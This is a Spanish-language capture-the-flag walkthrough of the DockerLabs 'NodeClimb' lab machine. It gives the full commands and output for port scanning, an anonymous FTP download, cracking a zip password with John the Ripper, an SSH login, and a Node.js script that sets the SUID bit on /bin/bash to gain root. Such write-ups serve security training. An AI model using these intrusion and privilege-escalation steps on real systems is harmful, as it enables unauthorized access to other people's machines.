 # NodeClimb DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip nodeclimb.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh nodeclimb.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____   
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__   
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___]  

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-25 08:57 EST
Nmap scan report for insanity.dl (172.17.0.2)
Host is up (0.000053s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 cd:1f:3b:2d:c4:0b:99:03:e6:a3:5c:26:f5:4b:47:ae (ECDSA)
|_  256 a0:d4:92:f6:9b:db:12:2b:77:b6:b1:58:e0:70:56:f0 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.71 second
```

Vemos que hay un `FTP` por lo que vamos a ver si podemos meternos de forma anonima.

## FTP

```shell
ftp anonymous@<IP>
```

Dejamos la contraseña vacia y veremos que estamos dentro, si listamos lo que contiene veremos lo siguiente:

```
229 Entering Extended Passive Mode (|||54817|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0             242 Jul 05  2024 secretitopicaron.zip
226 Directory send OK.
```

Vemos que hay un archivo llamado `secretitopicaron.zip`, por lo que nos lodescargaremos de la siguiente forma:

```shell
get secretitopicaron.zip
```

Ahora nos saldremos del `FTP` y veremos si podemos descomprimir el archivo, pero si lo intentamos veremos que esta protegido con contraseña, por lo que la intentaremos `crackear` de la siguiente forma:

## John The Ripper

```shell
zip2john secretitopicaron.zip > hash
```

Ahora intentaremos `crackear` el `hash` que obtuvimos del `ZIP`:

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
password1        (secretitopicaron.zip/password.txt)     
1g 0:00:00:00 DONE (2025-01-25 10:26) 100.0g/s 1638Kp/s 1638Kc/s 1638KC/s 123456..cocoliso
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Vemos que la contraseña es `password1` por lo que haremos lo siguiente.

## Escalate user mario

```shell
unzip secretitopicaron.zip
```

Metemos como contraseña `password1` y veremos que se nos descomprimio de forma correcta y obtendremos un archivo llamado `password.txt` que si lo leemos veremos lo siguiente:

```shell
cat password.txt
```

Info:

```
mario:laKontraseñAmasmalotaHdelbarrioH
```

Ahora probaremos a conectarnos por `ssh`.

### SSH

```shell
ssh mario@<IP>
```

Metemos como contraseña `laKontraseñAmasmalotaHdelbarrioH` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for mario on ce01e9447984:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on ce01e9447984:
    (ALL) NOPASSWD: /usr/bin/node /home/mario/script.js
```

Vemos que podemos ejecutar el binario `node` junto al `script.js` como el usuario `root`, por lo que haremos lo siguiente:

Si vemos los permisos que tiene el `script.js` veremos lo siguiente:

```shell
ls -la /home/mario/script.js
```

Info:

```
-rw-r--r-- 1 mario mario 0 Jul  5  2024 /home/mario/script.js
```

Vemos que tenemos permiso para poder editarlo o hacer lo que queramos, por lo que haremos lo siguiente.

> script.js

```js
const { exec } = require("child_process");

// Comando para habilitar el bit setuid en /bin/bash
const command = "chmod u+s /bin/bash";

exec(command, (error, stdout, stderr) => {
  if (error) {
    console.error(`Error ejecutando el comando: ${error.message}`);
    return;
  }
  if (stderr) {
    console.error(`Error de salida: ${stderr}`);
    return;
  }
  console.log(`Comando ejecutado exitosamente: ${stdout}`);
});
```

Por lo que ahora lo ejecutaremos de la siguiente forma:

```shell
sudo node /home/mario/script.js
```

Info:

```
Comando ejecutado exitosamente:
```

Ahora si listamos la `bash` veremos lo siguiente:

```shell
ls -la /bin/bash
```

Info:

```
-rwsr-xr-x 1 root root 1265648 Mar 29  2024 /bin/bash
```

Vemos que ha funcionado perfectamente y ya tendremos la `bash` con permisos `SUID`, por lo que haremos lo siguiente:

```shell
bash -p
```

Con esto ya seremos `root` por lo que habremos terminado la maquina.
